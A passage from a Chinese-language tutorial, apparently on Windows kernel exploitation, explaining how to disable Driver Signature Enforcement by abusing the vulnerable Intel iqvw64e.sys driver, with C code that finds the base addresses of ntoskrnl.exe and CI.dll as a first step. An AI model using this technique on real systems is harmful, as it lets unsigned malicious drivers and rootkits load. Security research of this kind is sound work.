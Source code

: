 ### 通过易受攻击的驱动程序禁用DSE

​    现在我们已经了解了所有的组成部分，让我们考虑另一种情况：如果我们想使用易受攻击的驱动程序而不是使用带有泄漏证书的恶意驱动程序来禁用DSE怎么办？正如我们在上面所见，我们只需要在易受攻击的驱动程序中具备读/写权限，而这样的驱动程序并不少见！

​    让我们使用一个易受攻击的驱动程序来禁用DSE。在这种情况下，我们将使用Intel的iqvw64e.sys驱动程序，这是一个相当流行的驱动程序。由于这次我们不在内核中执行代码，我们需要进行一些额外的步骤来在用户模式下计算地址。

​    首先，我们需要获取ntoskrnl.exe和ci.dll的基址。可以通过NtQuerySystemInformation和SystemModuleInformation很容易地获取这些基址：

```c
ULONG_PTR GetKernelModuleAddress(const char *name) {

	DWORD size = 0;
	void* buffer = NULL;
	PRTL_PROCESS_MODULES modules;
	
	NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemModuleInformation, buffer, size, &size);

	while (status == STATUS_INFO_LENGTH_MISMATCH) {
		VirtualFree(buffer, 0, MEM_RELEASE);

		buffer = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
		status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemModuleInformation, buffer, size, &size);
	}

	if (!NT_SUCCESS(status))
	{
		VirtualFree(buffer, 0, MEM_RELEASE);
		return NULL;
	}

	modules = (PRTL_PROCESS_MODULES)buffer;

	for (int i=0; i < modules->NumberOfModules; i++)
	{
		char* currentName = (char*)modules->Modules[i].FullPathName + modules->Modules[i].OffsetToFileName;

		if (!_stricmp(currentName, name)) {
			ULONG_PTR result = (ULONG_PTR)modules->Modules[i].ImageBase;

			VirtualFree(buffer, 0, MEM_RELEASE);
			return result;
		}
	}

	VirtualFree(buffer, 0, MEM_RELEASE);
	return NULL;
}
...

ULONG_PTR kernelBase = GetKernelModuleAddress("ntoskrnl.exe");
ULONG_PTR ciBase = GetKernelModuleAddress("CI.dll");
```
